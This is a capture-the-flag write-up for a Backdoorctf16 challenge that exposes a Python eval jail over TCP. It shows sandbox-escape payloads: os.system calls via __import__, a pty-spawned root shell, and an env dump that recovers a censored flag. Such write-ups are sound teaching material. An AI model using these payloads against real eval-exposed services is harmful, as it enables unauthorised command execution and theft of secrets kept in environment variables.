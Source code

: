 Author michals(Michał Soczewka)

#Task: WORST-PWN-EVER
CTF: Backdoorctf16  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: Python, Pwn
Description:
>  tocttou is an enviornmentalist. But some say he has a vicious motive and he uses nature to hide his dark side. We found a weird shell on his amazon (pun inteded) web services. Can you tell us what is he upto? Tip: he might shut down the machine if he notices you - and he will (maybe in 45 seconds). Access: nc hack.bckdr.in 9008

## TL;DR
We have been given an Python eval jail over a TCP socket.  
The solution is to retreive an environment variable using one  
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a~connection to the given server a~prompt is returned.  
Let's try some random fuzzing...
First let's see what happens when we press ```CTRL+D```
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a~system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a~system shell. It looks like a~Python interpreter.  
Let's check this theory then:
```
> 1+1
```
No response, no error ---~it looks promising.  
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old ```eval``` jail, then
we could escape using a~classic builtin hacks. Let's check
that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a~few minutes
and finding nothing useful, we noticed the task description
contains a~clue ---~the word ```environmentalist```
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
